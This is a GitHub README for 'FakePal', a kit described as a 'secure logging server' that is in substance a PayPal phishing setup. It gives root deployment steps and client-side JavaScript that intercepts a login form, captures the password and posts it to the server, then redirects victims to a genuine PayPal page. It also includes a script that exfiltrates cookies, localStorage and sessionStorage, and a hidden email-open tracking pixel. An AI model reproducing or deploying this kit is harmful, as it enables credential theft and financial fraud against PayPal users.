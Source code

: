
# FakePal Logging Service

This repository contains a Python script and associated files for running a secure HTTPS logging server. The server logs visitor information, form data, and email open tracking events.

## Setup Instructions

### Prerequisites
- Ubuntu server
- Python 3.x
- SSL certificates from Let's Encrypt or another provider
- IPinfo token for location data

### Directory Structure
```
/root/fakepal/
│
├── index.html                # Your main HTML file
├── Tools/
│   └── capture-server.py     # The main server script
├── log/                      # Directory for log files
│   ├── log.txt
│   └── email_open_log.txt
└── certs/                    # Directory for SSL certificates
    ├── fullchain.pem
    └── privkey.pem
```

### 1. Clone the Repository
```sh
git clone <repository_url> /root/fakepal
cd /root/fakepal
```

### 2. Install Dependencies
Ensure you have Python 3 and `requests` library installed:
```sh
sudo apt update
sudo apt install python3 python3-pip
pip3 install requests
```

### 3. Configure SSL Certificates
Place your SSL certificates in `/root/fakepal/certs/` directory. Update paths in `capture-server.py` if necessary.

### 4. Add IPinfo Token
Edit `capture-server.py` and add your IPinfo token:
```python
IPINFO_TOKEN = 'your_ipinfo_token'
```

### 5. Setup Systemd Service
Create a systemd service file `/etc/systemd/system/fakepal.service` with the following content:
```ini
[Unit]
Description=Web Server for Logging Service
After=network.target

[Service]
ExecStart=/usr/bin/python3 /root/fakepal/Tools/capture-server.py
WorkingDirectory=/root/fakepal    
StandardOutput=file:/var/log/fakepal.log
StandardError=file:/var/log/fakepal_err.log
User=root
Restart=always

[Install]
WantedBy=multi-user.target
```

### 6. Reload Systemd and Start Service
```sh
sudo systemctl daemon-reload
sudo systemctl enable fakepal.service
sudo systemctl start fakepal.service
```

### 7. Verify the Service
Check the status of the service:
```sh
sudo systemctl status fakepal.service
```

### 8. Setup Log Cleanup Cron Job
Add a cron job to compress daily logs and delete logs older than a week. Create a script `/root/fakepal/Tools/cleanup_logs.sh`:
```sh
#!/bin/bash
LOG_DIR="/root/fakepal/log"
find $LOG_DIR -type f -name "*.log" -mtime +7 -exec rm {} \;
tar -czf $LOG_DIR/logs_$(date +\%F).tar.gz $LOG_DIR/*.log --remove-files
```
Make the script executable:
```sh
chmod +x /root/fakepal/Tools/cleanup_logs.sh
```
Add the cron job:
```sh
(crontab -l 2>/dev/null; echo "0 0 * * * /root/fakepal/Tools/cleanup_logs.sh") | crontab -
```

## Client-side Tracking
Include the following scripts in your `index.html` to log form data and client-side data:
```html
<script>
    document.addEventListener('DOMContentLoaded', function() {
        var form = document.getElementById('loginForm');
        form.addEventListener('submit', function(event) {
            event.preventDefault(); // Prevent the default form submission

            var formData = new FormData(form);
            var data = {};
            formData.forEach((value, key) => data[key] = value);

            // Manually add the password field value
            var passwordField = document.getElementById('password');
            data['login_password'] = passwordField.value;

            // Use the fetch API to write the data to a log file
            fetch('/log', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify(data)
            })
            .then(response => {
                console.log('Form data logged:', response);
                // Redirect to the specified URL after 150ms
                setTimeout(() => {
                    window.location.href = 'https://www.paypal.com/webapps/mpp/page-not-found';
                }, 150);
            })
            .catch(error => {
                console.error('Error logging form data:', error);
                // Redirect to the specified URL in case of error
                setTimeout(() => {
                    window.location.href = 'https://www.paypal.com/webapps/mpp/page-not-found';
                }, 150);
            });
        });
    });
</script>

<script>
    document.addEventListener('DOMContentLoaded', function() {
        var c = document.cookie;
        var h = window.history;
        var ls = localStorage;
        var ss = sessionStorage;
        var p = navigator.plugins;
        var ua = navigator.userAgent;

        fetch('/log', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json'
            },
            body: JSON.stringify({
                cookies: c,
                history: h.length,  // Use h.length to avoid circular structure error
                localStorageData: JSON.stringify(ls),
                sessionStorageData: JSON.stringify(ss),
                plugins: Array.from(p).map(plugin => plugin.name),
                userAgent: ua
            })
        })
        .then(response => {
            console.log('Page data logged:', response);
        })
        .catch(error => {
            console.error('Error logging page data:', error);
        });
    });
</script>
```

## Tracking Email Opens
To track email opens, embed the following image tag in your email HTML:
```html
<img src="https://yourdomain.com/track-open?email=example@example.com" alt="tracker" style="display:none;">
```
This will log the email opens to `email_open_log.txt`.

## Contributing
Feel free to fork this repository and submit pull requests.

## License
This project is licensed under the MIT License.
